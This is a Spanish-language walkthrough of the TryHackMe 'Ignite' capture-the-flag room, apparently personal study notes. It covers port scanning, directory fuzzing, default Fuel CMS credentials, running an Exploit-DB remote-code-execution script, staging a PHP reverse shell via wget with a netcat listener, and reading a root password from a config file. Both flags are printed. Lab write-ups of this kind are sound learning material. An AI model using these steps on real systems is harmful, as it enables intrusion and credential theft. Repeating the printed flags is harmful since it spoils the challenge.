 # 21 - Ignite

## Objetivo

https://tryhackme.com/r/room/ignite

IP: 10.10.172.69

- User.txt: 6470e394cbf6dab6a91682cc8585059b
- Root.txt: b9bbcb33e11b80be759c4e844862482d

---

## Procesos

- ## Escanear puertos

  ```
  sudo nmap -sV <SERVICE_VERSION> -O <OS> -T4 <INTENSIDAD> <IP>
  ```

  ```
  sudo nmap -sV -O -T4 10.10.56.241
  ```

  - `-sV`: 80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

  - `-O`: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

  - `-T4`: En un rango de 1 a 5 lo agresivo (ruidoso) que quieres que sea el escaneo

- ## Fuzzear

  ```
  feroxbuster -u <URL> -t <THREADS> -L <SCAN_LIMIT> -n <NO_RECURSION> -w <WORD_LIST> -o <OUTPUT>
  ```

  ```
  feroxbuster -u http://10.10.172.69:80 -t 5 -L 5 -n -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o outputIgnite.txt
  ```

- ## Revisar pagina web

  - ### `Robot.txt`:

    ```
    User-agent: *
    Disallow: /fuel/
    ```

  - ### `/fuel` (Login page):

    user: admin
    password: admin

- ## Buscar vunerabilidades:

  ```
  searchsploit <SERVICE>
  ```

  ```
  searchsploit fuel

  > ------------------------------- ---------------------------------
   Exploit Title                   |  Path
  --------------------------------- ---------------------------------
  AMD Fuel Service - 'Fuel.service | windows/local/49535.txt
  Franklin Fueling Systems  TS-550 | hardware/remote/51321.txt
  Franklin Fueling Systems Colibri | linux/remote/50861.txt
  Franklin Fueling Systems TS-550  | hardware/remote/51382.txt
  Franklin Fueling TS-550 evo 2.0. | hardware/webapps/31180.txt
  fuel CMS 1.4.1 - Remote Code Exe | linux/webapps/47138.py
  Fuel CMS 1.4.1 - Remote Code Exe | php/webapps/49487.rb
  Fuel CMS 1.4.1 - Remote Code Exe | php/webapps/50477.py
  Fuel CMS 1.4.13 - 'col' Blind SQ | php/webapps/50523.txt
  Fuel CMS 1.4.7 - 'col' SQL Injec | php/webapps/48741.txt
  Fuel CMS 1.4.8 - 'fuel_replace_i | php/webapps/48778.txt
  Fuel CMS 1.5.0 - Cross-Site Requ | php/webapps/50884.txt
  --------------------------------- ---------------------------------
  Shellcodes: No Results
  ```

  - ### Explotar vulnerabilidad:

  1.  Descargar exploit y acceder a la shell

      https://www.exploit-db.com/exploits/50477

      ```
      python3 50477.py -u http://10.10.172.69
      ```

  2.  Una vez accedido a la shell:

      ```
      cat /home/www-data/flag.txt

      > 6470e394cbf6dab6a91682cc8585059b
      ```

  3.  Mejorar la shell (Reverse shell):

      1. Descargar y descomprimir:

         ```
         wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

         tar -xvzf php-reverse-shell-1.0.tar.gz
         ```

      2. Levantar web server en el directorio de la reverse shell para pasarla a la maquina objetivo:

         ```
         python3 -m http.server 80
         ```

      3. Conectarme al servidor desde la maquina objetivo:

         ```
         wget http://10.21.104.33/shell.php
         ```

      4. Mejorar shell:

         ```
         python -c 'import pty; pty.spawn("/bin/bash")'
         ```

      5. Escuchar desde mi maquina con netcat:

         ```
         netcat -nvlp 8085
         ```

      6. Cargar la sell en el navegador: http://10.10.172.69/shell.php

  4.  Hacernos root:

      1. Buscar archivo de configuracion:

         ```
         cd /var/www/html/fuel/application/config
         ```

      2. Conseguir credenciales root e identidicarnos como root:

         ```
         cat database.php

         > user: root
         password: mememe
         ```

         ```
         su root
         ```

      3. Acceder al directorio root (previamente oculto) y conseguir la flag:

         ```
         cd /
         cd root
         ```

         ```
         cat root.txt

         > b9bbcb33e11b80be759c4e844862482d
         ```
